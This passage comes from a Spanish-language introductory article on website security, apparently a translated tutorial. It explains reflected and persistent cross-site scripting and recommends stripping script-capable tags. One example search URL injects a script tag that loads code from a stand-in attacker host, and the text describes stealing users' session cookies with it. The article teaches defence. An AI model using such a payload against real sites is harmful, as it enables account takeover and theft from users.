 El resto de este artículo proporciona más detalle sobre unas pocas amenazas comunes y algunos de los pasos simples que puedes dar para proterger tu sitio.

> **Nota:** Este es un tema de introducción, diseñado para ayudarte a pensar sobre la seguridad de sitios web. No pretende ser exhaustivo.

## Amenazas contra la seguridad de sitios web

Esta sección lista sólo algunas pocas de las amenazas más comunes para los sitios web y cómo son mitigadas. A medida que vayas leyendo, fíjate cómo las amenazas tienen éxito cuando la aplicación web, ¡o confía o _no es lo suficientemente paranoica_ acerca de los datos que vienen del explorador web!

### Cross-Site Scripting (XSS)

XSS es un término que se usa para describir una clase de ataques que permiten al atacante inyectar scripts de lado cliente, _a través_ del sitio web, hasta los exploradores de otros usuarios. Como el código inyectado va del servidor del sitio al explorador, se supone de confianza, y de aquí que pueda hacer cosas como enviar al atacante la cookie de autorización al sitio del usuario. Una vez que el atacante tiene la cookie pueden iniciar sesión en el sitio como si fuera el verdadero usuario y hacer cualquier cosa que pueda hacer éste. Dependiendo de que sitio sea, esto podría incluir acceso a los detalles de su tarjeta de crédito, ver detalles de contactos o cambiar contraseñas, etc.

> **Nota:** Las vulnerabilidades XSS han sido históricamente más comunes que las de cualquier otro tipo.

Hay dos aproximaciones principales para conseguir que el sitio devuelva scripts inyectados al explorador — se conocen como vulnerabilidades XSS _reflejadas_ y _persistentes_.

- Una vulnerabilidad XSS _reflejada_ ocurre cuando contenido del usuario que se pasa al servidor se devuelve _inmediatamente y sin modificar_ par que los muestre el explorador — ¡cualquier script en el contenido original del usuario se ejecutará cuando se cargue una nueva página!
  Por ejemplo, considera una función de búsqueda en un sitio donde los términos de búsqueda están codificados como parámetros URL y estos términos se presentan junto con los resultados. Un atacante puede construir un enlace de búsqueda que contenga un script malicioso como parámetro (ej. `http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`) y enviarlo como enlace en un correo electrónico a otro usuario: Si el destinatario pincha en este "enlace interesante", el script se ejecutará cuando se muestren en pantalla los resultados de la búsqueda. Como discutimos arriba, ésto da al atacante toda la información que necesita para entrar en el sitio como si fuera el usuario destinatario — realizando compras potencialmente como si fuera el usuario o compartiendo su información de contactos.
- Una vulnerabilidad _XSS persistente_ es aquella en la que el script malicioso se _almacena_ en el sitio web y luego más tarde se vuelve a presentar en pantalla sin modificar para que otros usuarios lo ejecuten involuntariamente. Por ejemplo, un foro de discusión que accepta comentarios que contengan HTML sin modificar, podría almacenar un script malicioso de un atacante. Cuando se muestren los comentarios se ejecutará el script y enviará al atacante la información requerida para acceder a la cuenta del usuario. Esta clase de ataque es extremadamente popular y muy potente, porque el atacante no tiene que tener ninguna relación directa con las víctimas.

  Si bien los datos `POST` o `GET` son las fuentes más comunes de vulnerabilidades, cualquier dato del explorador es vulnerable potencialmente (incluyendo los datos de cookies renderizados por el explorador, o los ficheros de los usuarios que éste sube o que se muestran).

La mejor defensa contra las vulnerabilidades XSS es eliminar o deshabilitar cualquier etiqueta que pueda contener instrucciones para ejecutar código. En el caso del HTML ésto incluye etiquetas como `<script>`, `<object>`, `<embed>`, y `<link>`.
